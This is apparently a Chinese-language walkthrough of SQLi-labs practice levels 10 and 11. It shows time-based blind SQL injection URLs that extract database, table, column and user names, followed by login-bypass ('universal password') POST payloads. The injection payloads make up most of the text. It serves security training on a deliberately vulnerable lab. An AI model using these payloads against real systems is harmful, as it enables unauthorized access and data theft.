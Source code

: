 猜解库的长度

```
http://daishen.ltd:1112/Less-10/?id=1” and if(length(database())=8,sleep(3),1) --+
```

猜解库名

```
http://daishen.ltd:1112/Less-10/?id=1” and if(left((select database()),1)='s',sleep(3),1) --+
```

猜解表名

```
http://daishen.ltd:1112/Less-10/?id=1" and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e',sleep(3),1) --+
```

猜解字段名

```
http://daishen.ltd:1112/Less-10/?id=1" and if(left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i',sleep(3),1) --+
```

猜解记录

```
http://daishen.ltd:1112/Less-10/?id=1" and if(left((select username from users limit 0,1),1)='d',sleep(3),1) --+
```

#  **Less-11** 

**POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)**



### 万能密码

这里拿 admin 用户来模拟登录测试，首先查询出 admin 的用户信息如下：

```bash
mysql> select * from users where username = 'admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  8 | admin    | admin    |
+----+----------+----------+
```

因为核心的 SQL 语句只使用单引号拼接，这里就是一个经典的万能密码漏洞，可以使用如下 Payload 来登录系统：

```bash
# 注释掉 passwd 来登录
uname=admin'--+&passwd=&submit=Submit
uname=admin'#&passwd=&submit=Submit

# 注释后面语句 并 添加一个永真条件
uname=admin&passwd=1' or 1--+&submit=Submit
uname=admin&passwd=1'||1--+&submit=Submit
uname=admin&passwd=1' or 1#&submit=Submit
uname=admin&passwd=1'||1#&submit=Submit

# 闭合后面语句 并 添加一个永真条件
uname=admin&passwd=1'or'1'='1&submit=Submit
uname=admin&passwd=1'||'1'='1&submit=Submit
```
